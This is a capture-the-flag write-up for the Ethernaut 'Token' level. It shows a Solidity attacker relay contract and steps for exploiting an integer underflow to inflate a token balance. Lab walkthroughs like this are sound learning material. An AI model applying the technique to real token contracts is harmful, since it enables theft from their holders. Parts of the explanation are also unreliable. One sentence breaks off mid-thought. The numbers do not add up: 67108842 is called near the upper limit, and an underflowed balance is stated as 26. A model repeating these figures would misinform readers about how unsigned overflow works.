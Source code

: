 # [5. Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0. Here too we needed a buddy to help us, which is the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Token {
  function transfer(address _to, uint _value) external returns (bool);
}

contract Attacker {
  Token tokenTarget;

  constructor(address _target) {
    tokenTarget = Token(_target);
  }

  function transfer(address _to, uint _value) external returns (bool) {
    return tokenTarget.transfer(_to, _value);
  }
}
```

The steps are simple:

1. We start with 20 tokens, as the task described. We send an arbitrary amount of (lets say 4) tokens to the Attacker contract.
    - Player has 16 tokens
    - Attacker has 4 tokens
2. We can now send from Attacker to the Player a HUGE amount of tokens, I sent 67108842. It is important to note that this value is a bit smaller than the upper-limit to avoid overflowing back.
    - Player has 67108858 tokens. This is equal to (16 + 67108842).
    - Attacker has 26 tokens. This is equal to (4 - 67108842) underflowed.

Why did we need the buddy attacker? In the code, you can see that the following two lines cancel eachother out if both `msg.sender` and `_to` are the same:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```
